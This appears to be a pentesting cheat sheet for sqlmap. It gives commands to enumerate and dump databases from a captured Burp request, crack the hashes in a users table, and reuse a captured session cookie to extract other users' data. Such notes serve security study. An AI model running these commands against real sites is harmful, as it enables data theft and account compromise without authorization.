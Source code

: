 ## SQLmap

For this attack you should capture the request of an input parameter with burp. For this, you just have to intercept the request (login for example) and then just copy the request and save it in a txt file and run sqlmap with:

````
sqlmap -r <burpsuite txt file> --dbs
````


````
sqlmap -r <txt file from burpsuite> -D <database name> --tables
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --tables --columns
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --dump
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --tables -T users
````

**Dump All**

if you use for example:

````
sqlmap -r <burpsuite txt file> -D <ddbb> -T <table> --dump-all
````
And the case is if the table is the users table, with dump all sqlmap will ask to bruteforce the hashes, should be YES.


--------------------------------
**Lateral Movement**

On a website attack, you can use your session cookie (if you have an account) to extract information of another user from the table with sqlmap.

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" --dbs    #for Database
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* --tables #for Tables of selected Database
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --colmns #for Column names
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --dump #dump tables
````
-----------------------------------

